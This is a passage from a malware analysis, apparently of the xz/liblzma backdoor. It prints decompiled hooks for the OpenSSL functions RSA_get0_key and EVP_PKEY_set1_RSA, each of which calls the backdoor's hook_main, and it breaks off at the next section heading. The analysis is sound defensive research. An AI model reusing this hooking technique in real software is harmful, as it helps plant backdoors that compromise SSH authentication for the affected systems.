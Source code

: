 - `RSA_get0_key`: `RSA_get0_key_hook` (`.text.lzma_index_inia:000000000000A360`):

  ```c
  void __fastcall RSA_get0_key_hook(RSA *r, BIGNUM **n, BIGNUM **e)
  {
    hfuncs_t *hfuncs; // rax
    void (__fastcall *RSA_get0_key_orig_func)(const RSA *, const BIGNUM **, const BIGNUM **, const BIGNUM **); // r14
    uint32_t *status; // [rsp+1Ch] [rbp-1Ch] BYREF

    if ( g_ctx )
    {
      hfuncs = g_ctx->hfuncs;
      if ( hfuncs )
      {
        RSA_get0_key_orig_func = hfuncs->RSA_get0_key_null;
        if ( RSA_get0_key_orig_func )
        {
          if ( r )
            hook_main(r, g_ctx, &status);
          (RSA_get0_key_orig_func)(r, n, e);
        }
      }
    }
  }
  ```

- `EVP_PKEY_set1_RSA`: `EVP_PKEY_set1_RSA_hook` (`.text.lzma_index_memusaga:000000000000A300`):

  ```c
  int __fastcall EVP_PKEY_set1_RSA_hook(EVP_PKEY *pkey, RSA *r)
  {
    hfuncs_t *hfuncs; // rax
    int (__fastcall *EVP_PKEY_set1_RSA_null)(EVP_PKEY *, struct rsa_st *); // r12
    uint32_t *status; // [rsp+Ch] [rbp-1Ch] BYREF

    if ( !g_ctx )
      return 0;
    hfuncs = g_ctx->hfuncs;
    if ( !hfuncs )
      return 0;
    EVP_PKEY_set1_RSA_null = hfuncs->EVP_PKEY_set1_RSA_null;
    if ( !EVP_PKEY_set1_RSA_null )
      return 0;
    if ( r )
      hook_main(r, g_ctx, &status);
    return EVP_PKEY_set1_RSA_null(pkey, r);
  }
  ```

As we can see, in all three cases, the `hook_main` backdoor function will be executed, which we will focus on in the next section.

# hook main


[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48